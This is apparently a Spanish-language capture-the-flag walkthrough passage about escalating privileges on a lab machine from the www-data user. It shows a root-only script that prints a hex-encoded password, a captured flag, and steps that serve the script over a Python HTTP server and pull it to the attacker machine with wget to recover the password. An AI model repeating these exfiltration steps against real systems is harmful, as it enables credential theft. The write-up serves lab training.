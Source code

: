 Tenemos un archiov que pertenece a **root** y su contenido solo puede ser ejecutado como **root**:
```bash
#!/bin/bash

if [ "$(id -u)" -ne 0 ]; then
  echo "Este script debe ser ejecutado como root."
  exit 1
fi

p1=$(echo -e "\x50\x61\x73\x73\x77\x6f\x72\x64") 
p2="\x40"                                       
p3="\x24\x24"                                   
p4="\x21\x31\x32\x33"                           

echo -e "${p1}${p2}${p3}${p4}"
```
### Explotacion de Privilegios

###### Usuario `[ www-data ]`:
Revisando usuario en el sistema tenemos 1, El cual tenemos que ver como podemos secuestrar su sesion:
```bash
mrrobot:x:1000:1000::/home/mrRobot:/bin/bash
```

Revisando el contenido del directorio: **( /tmp )**
```bash
ls -l /tmp
```

Tenemos un archivo: **( test )** y revisando su contenido:
```bash
flag    IN      TXT     "FLAG{05964683-55675-23423-985046}"
User    IN      TXT     mrRobot@hackzone.hl
```

Sabiendo que no podemos ejecutar el archivo: **( secret.sh )** pero vemos que existe el binario de **python**
```bash
which python3

/usr/bin/python3
```

Lo que aremos es montar un servidor **python** por el puerto **8080**:
```bash
python3 -m http.server 8080
```

Ahora desde nuestra maquina atacante realizaremos la solicitud para descargar el archivo:
```bash
wget http://172.17.0.2:8080/secret.sh
```

Ya descargado ahora nos pertenece este archivo y si que podemos ejecutarlo en nuestra maquina de atacante:
```bash
sudo bash secret.sh
```
